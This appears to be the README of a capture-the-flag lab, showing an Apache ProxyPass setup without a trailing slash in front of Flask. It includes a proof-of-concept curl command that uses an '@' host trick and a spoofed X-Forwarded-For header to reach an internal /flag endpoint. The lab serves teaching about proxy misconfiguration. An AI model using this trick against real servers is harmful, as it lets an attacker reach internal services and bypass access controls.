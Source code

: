 ### Apache + Flask

ProxyPass is no ending slash

Try to access http://127.0.0.1:3000/flag

### Usage

Build
```
docker-compose up
```

Go http://127.0.0.1:8087/

### Hint
httpd.conf
```
ProxyPreserveHost On
ProxyPass / http://127.0.0.1:8080
ProxyPassReverse / http://127.0.0.1:8080
```

### POC
``` bash
curl "http://127.0.0.1:8086/@127.0.0.1:3000/flag" -H 'X-Forwarded-For: 127.0.0.1'
```
